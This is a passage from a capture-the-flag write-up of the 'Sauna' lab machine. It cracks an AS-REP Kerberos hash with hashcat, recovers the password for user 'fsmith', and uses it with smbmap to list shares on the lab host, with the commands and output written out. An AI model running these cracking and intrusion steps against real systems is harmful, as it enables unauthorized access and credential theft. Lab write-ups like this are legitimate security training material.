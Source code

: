 We get a hash for the account with the username `fsmith`. 

Since we specified the output format as `hashcat` we can crack it with the tool directly. All we need is to find the correct output mode for this hash. Find the mode using [hashcat's website mode catalog][Hashcat-Catalog]. The initial section of the returned hash is the hash mode we must use. In this case, it is `$krb5asrep$23$`.

<div class="article-image">
  <img src="/assets/img/sauna/hash_mode.png">
</div>

Mode number `18200`.

Craft your hashcat command with all this information.

<div class="article-code">
{% highlight sh %}
jeanp@~$ sudo hashcat -m 18200 hashes.txt /usr/share/wordlists/rockyou.txt -o cracked_hashes
[sudo] password for jeanp: 
hashcat (v6.2.6) starting
...
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: $krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:95e5c37...c5d377
{% endhighlight %}
</div>

<div class="article-code">
{% highlight sh %}
jeanp@~$ sudo hashcat --show hashes.txt

$krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:95ef86a...5d377:Thestrokes23
{% endhighlight %}
</div>

Let's use these credentials to check smb shares once again.

<div class="article-code">
{% highlight sh %}
jeanp@~$ smbmap -u "fsmith" -p "Thestrokes23" -H 10.10.10.175

Detected 1 hosts serving SMB

Established 1 SMB connections(s) and 1 authenticated session(s)                                                      
[+] IP: 10.10.10.175:445  Name: EGOTISTICAL-BANK.LOCAL  Status: Authenticated
  Disk                                                    Permissions Comment
  ----                                                    ----------- -------
  ADMIN$                                              NO ACCESS Remote Admin
  C$                                                  NO ACCESS Default share
  IPC$                                                READ ONLY Remote IPC
  NETLOGON                                            READ ONLY Logon server share 
  print$                                              READ ONLY Printer Drivers
  RICOH Aficio SP 8300DN PCL 6                        NO ACCESS We cant print money
  SYSVOL                                              READ ONLY Logon server share 
Closed 1 connections
{% endhighlight %}
</div>


[Pass-The-Hash]: https://www.crowdstrike.com/en-us/cybersecurity-101/cyberattacks/pass-the-hash-attack/
[AD-Mindmap]: https://raw.githubusercontent.com/Orange-Cyberdefense/ocd-mindmaps/main/img/pentest_ad_dark_2023_02.svg
[Hashcat-Catalog]: https://hashcat.net/wiki/doku.php?id=example_hashes
[Username-Anarchy]: https://github.com/urbanadventurer/username-anarchy
[Evil-Winrm]: https://github.com/Hackplayers/evil-winrm
[WinPEAS]: https://github.com/peass-ng/PEASS-ng/blob/master/winPEAS/winPEASexe/README.md